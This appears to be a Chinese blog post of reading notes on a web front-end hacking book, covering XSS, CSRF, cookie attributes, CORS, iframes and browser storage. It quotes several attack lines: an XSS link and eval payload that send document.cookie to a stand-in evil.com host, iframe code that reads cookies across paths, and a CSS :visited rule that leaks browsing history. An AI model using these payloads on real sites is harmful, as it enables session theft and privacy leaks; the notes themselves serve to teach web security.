 ```yaml
---
title: 读《web前端黑客技术揭秘》
date:   2018/6/1
categories: 学习
tags: 读书笔记 
---
```


### XSS 跨站脚本攻击
如果攻击者构造出如下链接：
http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie)
浏览器解释执行后，下面的语句：
eval(location.hash.substr(1));
会变为：
eval('new Image().src="http://www.evil.com/steal.php?c="+escape(document.
cookie)')
Cookies 会话信息就会被盗取到黑客的网站上

### CSRF 
CSRF 是跨站请求伪造，CSRF 会借用目标用户的权限做一些借刀杀人的事（注意是“借用”，而不是“盗取”
目标权限），然后去做坏事，
“盗取”通常是XSS（跨站脚本攻击）最喜欢做的事。

### APT
APT（持久化威胁）攻击
如果是个反射型的XSS，IE 8/IE 9/Chome 直接就给拦截了。

### 无状态的HTTP
HTTP 是无状态的，那么每次在连接时，服务端如何知道你是上一次的那个？
这里通过Cookies 进行会话跟踪，第一次响应时设置的Cookies 在随后的每次请求中都会发
送出去。Cookies 还可以包括登录认证后的身份信息。

### 响应资源的类型与字符集
Content-Type: text/html;charset=gbk
响应资源的类型与字符集。针对不同的资源类型会有不同的解析方式，这个会影响浏
览器对响应体里的资源解析方式，可能因此带来安全问题。字符集也会影响浏览器的解码
方式，同样可能带来安全问题。

### Set-Cookie
Set-Cookie: USERID=c7888882e039b32fd7b4d3; expires=Tue, 01 Jan 2030
00:00:00 GMT; path=/; domain=.foo.com
每个 Set-Cookie 都设置一个Cookie（key=value 这样），随后是如下内容。
expires：过期时间，如果过期时间是过去，那就表明这个Cookie 要被删。
path：相对路径，只有这个路径下的资源可以访问这个Cookie。
domain：域名，不允许设为下一级子域或其他外域，可以指定为父级域
HttpOnly：标志（默认无，如果有的话，表明Cookie 存在于HTTP 层面，不能被客户
端脚本读取）。
Secure：标志（默认无，如果有的话，表明Cookie 仅通过HTTPS 协议进行安全传输）。但是Secure Cookie 对于客户端脚本来说是可读写的。可读意味着
Secure Cookie 能被盗取，可写意味着能被篡改。

### iframe
攻击者入侵一个网站后，可以通过iframe 嵌入自己的网马页面，用户访问该网站后，被嵌入的网马页面就会执行

当网站页面使用iframe 方式嵌入一个页面时，
我们约定网站页面是父页，而被嵌入的这个页面是子页。那么父页与子页之间如何跨文档读写数据？
如果父页和子页之间是同域，那就很容易，父页可以通过调用子页的contentWindow
来操作子页的DOM 树，同理，子页可以调用父页的contentWindow 来操作父页的DOM 树。
如果它们不同域，则必须遵守同源策略，但子页还是可以对父页的location 值进行写操作，
这样可以让父页重定向到其他网页，不过对location 的操作仅仅只有写权限，而没有读权
限，这样就不能获取到父页location URL 的内容，否则有可能会造成隐私数据泄漏，

### 跨域
 www.foo.com（来源域）的AJAX 向www.evil.com（目标域）发起了请求，浏览器会
给自动带上Origin 头，如下：
Origin: http://www.foo.com
然后目标域要判断这个Origin 值，如果是自己预期的，那么就返回：
Access-Control-Allow-Origin: http://www.foo.com
表示同意跨域

如果目标域不设置Access-Control-Allow-Origin: http://www.foo.com，那么隐私数据可
以被偷到吗？答案是肯定的。虽然浏览器会报权限错误的问题，但实际上隐私数据已经被
目标域的steal.php 接收到了。

### 跨域带上会话
默认情况下，跨域不会带上目标域的会话（Cookies 等），需要设置xhr 实例的withCredentials 属性为true（IE 还不支持），同时目标域的steal.php 必须设置如下：
<?php
header("Access-Control-Allow-Origin: http://www.foo.com");
header("Access-Control-Allow-Credentials: true"); // 允许跨域证书发送
//...
?>
有 一 点 需 要 注 意 ， 如 果设置了Access-Control-Allow-Credentials 为true ， 那么
Access-Control-Allow-Origin 就不能设置为*通配符

### 跨路径读取Cookie
那么有什么办法跨路径读取Cookie？比如，/evil/路径想读取/admin/路径的Cookie。很简单，通过跨iframe 进行
DOM 操作即可，/evil/路径下页面的代码如下：
```javascript
xc = function(src){
var o = document.createElement("iframe"); // iframe 进入同域的目标页面
o.src = src;
document.getElementsByTagName("body")[0].appendChild(o);
o.onload = function(){ // iframe 加载完成后
d = o.contentDocument || o.contentWindow.document;
// 获取document 对象
alert(d.cookie); // 获取cookie
};
}('http://a.foo.com/admin/index.php');
```
所以，通过设置path 不能防止重要的Cookie 被盗取。

### 本地Cookie 与内存Cookie
如果没设置过期时间，就是内存Cookie，这样的Cookie 会随着浏览器的关闭而从内存中消失；如果设置了
过期时间是未来的某个时间点，那么这样的Cookie 就会以文本形式保存在操作系统本地，
待过期时间到了才会消失。

### P3P
HTTP 响应头的P3P（Platform for Privacy Preferences Project）字段是W3C 公布的一项
隐私保护推荐标准。该字段用于标识是否允许目标网站的Cookie 被另一个域通过加载目标
网站而设置或发送，仅IE 执行了该策略。
比如，evil 域通过script 或iframe 等方式加载foo 域（此时foo 域被称为第三方域）。
加载的时候，有两种场景

1. 浏览器是否会允许foo 域设置自己的Cookie

    在IE 下默认都是不允许第三方域设置域已有的Cookie的，除非foo 域在``响应的时候带上P3P 字段``

2. 浏览器是否允许发送请求到foo 域时，带上foo 域已有的Cookie

    发送的Cookie 如果是内存Cookie，则无所谓是否有P3P 属性，就可以正常发送；如果
    是本地Cookie，则这个本地Cookie 必须拥有P3P 属性，否则，即使目标域响应了P3P 头
    也没用。
### IE的userData
 ```javascript
 function set_ud(key,value) {
    var a = document.getElementById('x'); // x 为任意div 的id 值
    a.addBehavior("#default#userdata");
    a.setAttribute(key,value);
    a.save("db");
}
function get_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.load("db");
    alert(a.getAttribute(key));
}
function del_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.setAttribute(key, ""); // 设置为空值即可
    a.save("db");
}
window.onload = function(){
    set_ud('a','xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'); // 设置
    get_ud('a'); // 获取a 的值
    del_ud('a'); // 删除a 的值
    get_ud('a'); // 获取a 的值
};
 ```
### FlashCookie
```actionScript
function set_lso(k:String="default", v:String=""):void
{ // 设置值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.data[k] = v;
    shared.flush();
}
function get_lso(k:String="default"):String
{ // 获取值
    var str:String = "";
    var shared:SharedObject = SharedObject.getLocal("db");
    str = shared.data[k];
    return str;
}
function clear_lso():void
{ // 清空值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.clear();
}
```

### 函数劫持很简单
一般情况下，只要在目标函数触发之前，重写这个函数即可

### css
```css
#a2:visited {background: url(http://www.evil.com/css/steal.php?data=a2);}
```